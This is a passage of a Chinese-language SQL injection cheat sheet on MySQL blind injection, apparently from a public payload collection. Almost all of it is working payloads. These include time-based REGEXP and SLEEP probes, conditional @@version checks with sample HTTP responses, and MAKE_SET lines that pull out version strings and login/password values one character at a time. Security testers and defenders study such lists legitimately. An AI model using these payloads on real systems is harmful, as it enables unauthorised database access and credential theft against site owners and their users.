 ```
[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS /conditions]) THEN [ONE column TO ORDER BY] ELSE [ANOTHER column TO ORDER BY] END)); -- -
```

### 使用REGEXP的MySQL盲注SQL二进制查询

有效载荷：

```
' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
```

在以下查询中有效（其中“where”子句是注入点）：

```
SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';
```

在所述查询中，它将检查“items”数据库中的“name”列是否存在以“a”开头的物品。如果是这样，它将为每个物品休眠3秒。

### 使用条件语句的MySQL盲注

真：`如果@@version以5开头`：

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
响应：
HTTP/1.1 500 Internal Server Error
```

假：`如果@@version以4开头`：

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
响应：
HTTP/1.1 200 OK
```

### 使用MAKE_SET的MySQL盲注

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```

### 使用LIKE的MySQL盲注

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) 类似于正则表达式字符'.'，使用它可以加快您的盲注测试速度

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```
